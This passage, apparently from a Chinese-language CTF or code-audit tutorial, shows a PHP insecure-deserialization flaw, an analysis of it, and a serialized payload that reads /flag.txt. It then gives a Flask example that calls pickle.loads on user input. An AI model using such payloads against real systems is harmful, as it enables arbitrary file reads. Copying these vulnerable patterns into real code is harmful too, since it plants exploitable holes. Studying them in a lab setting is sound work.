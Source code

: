 ```php
            return true;
        }
        return false;
    }
    
    public function __toString() {
        return file_get_contents($this->username);
    }
}

$user_data = $_GET['data'];
$user = unserialize($user_data);
echo $user;
?>
```

**漏洞分析：**
1. 存在反序列化漏洞
2. `__toString` 方法可以读取任意文件
3. 当对象被当作字符串使用时会触发 `__toString`

**利用 Payload：**
```php
<?php
class User {
    public $username = '/flag.txt';  // 要读取的文件
    public $password = '';
}

$payload = serialize(new User());
echo urlencode($payload);
// 输出：O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A9%3A%22%2Fflag.txt%22%3Bs%3A8%3A%22password%22%3Bs%3A0%3A%22%22%3B%7D
?>
```

### Python 代码审计

```python
# Flask应用漏洞示例
from flask import Flask, request
import pickle
import base64

app = Flask(__name__)

@app.route('/data', methods=['POST'])
def handle_data():
    data = request.form.get('data')
    # 危险的反序列化
    obj = pickle.loads(base64.b64decode(data))
    return str(obj)

if __name__ == '__main__':
    app.run(debug=True)
```
